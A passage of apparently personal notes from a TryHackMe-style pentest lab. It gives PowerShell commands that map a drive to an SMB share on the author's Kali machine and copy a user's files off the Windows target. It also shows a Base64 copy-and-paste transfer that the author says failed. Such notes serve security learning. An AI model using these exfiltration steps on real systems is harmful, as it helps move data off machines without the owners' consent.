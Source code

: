    This command creates a new drive (e.g., `K:`) that points to the SMB share on your Kali machine.

3. **Verify the Drive Mapping**:
   You can check that the drive is mapped by listing the contents of the new drive:
   ```powershell
   Get-ChildItem K:\
   ```
   This should display the contents of the `/tmp/share` folder on Kali Linux.

4. **Copy Files to the New Drive**:
   Use the `Copy-Item` cmdlet to transfer files from Windows to the SMB share:
   ```powershell
   Copy-Item -Path "C:\Users\THMBackup\<File_name>" -Destination "K:\"
   ```
   - Replace `<File_name>` with the file you want to copy.

5. **Confirm File Transfer**:
   - On your Kali machine, check the `/tmp/share` directory to see if the file has been transferred successfully.

6. **Unmount the Drive (Optional)**:
   Once you’re done, you can remove the drive mapping with:
   ```powershell
   Remove-PSDrive -Name K
   ```

# Downloading the PDF by converting it to base64 and then copy and pasting it to our box

1. Convert the file to Base64
``` powershell
$b64 = [Convert]::ToBase64String([IO.FILE]::ReadAllBytes("File.pdf"))
$b64
```
2. Copy the out to your `kali-linux` OS in a file as base64
```
base64 -d fixed.b64 > file.pdf
```
#### But doesn't work for me
